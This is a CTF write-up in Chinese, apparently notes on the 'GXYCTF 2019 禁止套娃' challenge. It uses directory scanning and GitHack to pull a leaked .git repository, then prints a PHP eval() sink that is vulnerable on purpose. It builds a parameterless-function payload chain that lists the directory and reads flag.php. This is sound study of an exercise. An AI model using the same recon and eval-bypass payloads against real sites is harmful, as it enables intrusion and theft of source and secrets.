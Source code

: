![[Pasted image 20221114101936.png]]

---
首页长这样
![[Pasted image 20221114101945.png]]
然后好像就没有然后了QAQ

---
尝试使用`dirsearch`进行目录扫描
```shell
./dirsearch.py -u http://xxx.node4.buuoj.cn/ -t 1
```

```python
# Dirsearch started Mon Nov 14 10:28:50 2022 as: /home/chen/Desktop/proj/repos/dirsearch/dirsearch.py -u http://xxx.node4.buuoj.cn/ -t 1

301   185B   http://xxx.node4.buuoj.cn/.git    -> REDIRECTS TO: http://xxx.node4.buuoj.cn/.git/
403   169B   http://xxx.node4.buuoj.cn/.git/
403   169B   http://xxx.node4.buuoj.cn/.git/branches/
200   267B   http://xxx.node4.buuoj.cn/.git/COMMIT_EDITMSG
200    92B   http://xxx.node4.buuoj.cn/.git/config
200    73B   http://xxx.node4.buuoj.cn/.git/description
200    23B   http://xxx.node4.buuoj.cn/.git/HEAD
403   169B   http://xxx.node4.buuoj.cn/.git/hooks/
200   137B   http://xxx.node4.buuoj.cn/.git/index
403   169B   http://xxx.node4.buuoj.cn/.git/info/
200   240B   http://xxx.node4.buuoj.cn/.git/info/exclude
403   169B   http://xxx.node4.buuoj.cn/.git/logs/
200   150B   http://xxx.node4.buuoj.cn/.git/logs/HEAD
301   185B   http://xxx.node4.buuoj.cn/.git/logs/refs    -> REDIRECTS TO: http://xxx.node4.buuoj.cn/.git/logs/refs/
301   185B   http://xxx.node4.buuoj.cn/.git/logs/refs/heads    -> REDIRECTS TO: http://xxx.node4.buuoj.cn/.git/logs/refs/heads/
200   150B   http://xxx.node4.buuoj.cn/.git/logs/refs/heads/master
403   169B   http://xxx.node4.buuoj.cn/.git/objects/
403   169B   http://xxx.node4.buuoj.cn/.git/refs/
301   185B   http://xxx.node4.buuoj.cn/.git/refs/heads    -> REDIRECTS TO: http://xxx.node4.buuoj.cn/.git/refs/heads/
200    41B   http://xxx.node4.buuoj.cn/.git/refs/heads/master
301   185B   http://xxx.node4.buuoj.cn/.git/refs/tags    -> REDIRECTS TO: http://xxx.node4.buuoj.cn/.git/refs/tags/
```
发现可能存在`git`源码泄露，使用`GitHack`获取源码
```shell
chen@cracktc-no-omen ~/D/p/r/GitHack (master)> ./GitHack.py http://xxx.node4.buuoj.cn/.git/
[+] Download and parse index file ...
[+] index.php
[OK] index.php
```
---
index.php
```php
<?php  
include "flag.php";  
echo "flag在哪里呢？<br>";  
if(isset($_GET['exp'])){  
   if (!preg_match('/data:\/\/|filter:\/\/|php:\/\/|phar:\/\//i', $_GET['exp'])) {  
       if(';' === preg_replace('/[a-z,_]+\((?R)?\)/', NULL, $_GET['exp'])) {  
           if (!preg_match('/et|na|info|dec|bin|hex|oct|pi|log/i', $_GET['exp'])) {  
               // echo $_GET['exp'];  
               @eval($_GET['exp']);  
           }  
           else{  
               die("还差一点哦！");  
           }  
       }  
       else{  
           die("再好好想想！");  
       }  
   }  
   else{  
       die("还想读flag，臭弟弟！");  
   }  
}  
// highlight_file(__FILE__);  
?>
```
只接受函数套函数的形式，禁止套娃.jpg

---
# 思路
主要就是想办法只通过函数的嵌套搞出`'.'`，从而通过`scandir('.');`来获得目录下的文件，再通过数组操作取`flag.php`传给`highlight_file`函数，达到获取`flag`的目的

---
# 获取`'.'`
搜索得知，`localeconv()`函数能够返回区域格式相关的信息
```php
/?exp=var_dump(localeconv());
```

```php
array(18) {
  ["decimal_point"]=>
  string(1) "."
  ["thousands_sep"]=>
  string(0) ""
  ["int_curr_symbol"]=>
  string(0) ""
  ["currency_symbol"]=>
  string(0) ""
  ["mon_decimal_point"]=>
  string(0) ""
  ["mon_thousands_sep"]=>
  string(0) ""
  ["positive_sign"]=>
  string(0) ""
  ["negative_sign"]=>
  string(0) ""
  ["int_frac_digits"]=>
  int(127)
  ["frac_digits"]=>
  int(127)
  ["p_cs_precedes"]=>
  int(127)
  ["p_sep_by_space"]=>
  int(127)
  ["n_cs_precedes"]=>
  int(127)
  ["n_sep_by_space"]=>
  int(127)
  ["p_sign_posn"]=>
  int(127)
  ["n_sign_posn"]=>
  int(127)
  ["grouping"]=>
  array(0) {
  }
  ["mon_grouping"]=>
  array(0) {
  }
}
```
通过`current`函数可以取该数组的第一个元素，也就是小数点`.`
```php
/?exp=var_dump(current(localeconv()));
```

```php
string(1) "."
```
---
# 获取目录文件
```php
/?exp=var_dump(scandir(current(localeconv())));
```

```php
array(5) {
  [0]=>
  string(1) "."
  [1]=>
  string(2) ".."
  [2]=>
  string(4) ".git"
  [3]=>
  string(8) "flag.php"
  [4]=>
  string(9) "index.php"
}
```

# 获取`'flag.php'`
`'flag.php'`在数组的倒数第二个位置
可以通过`array_reverse`函数将数组倒序返回，再利用`next`函数取第二个元素
```php
/?exp=var_dump(next(array_reverse(scandir(current(localeconv())))));
```

```php
string(8) "flag.php"
```

# 读取`flag.php`
```php
/?exp=var_dump(highlight_file(next(array_reverse(scandir(current(localeconv()))))));
```

```php
<?php
$flag = "flag{b0706baf-2c5c-4499-8a5e-8961814c3bf6}";
?>
```

---
这篇大佬写的wp还介绍了更多无参数RCE的骚操作
https://johnfrod.top/ctf/gxyctf-2019禁止套娃/

#Web #PHP #git泄露 #目录爆破 #数组 #函数 #RCE #无参数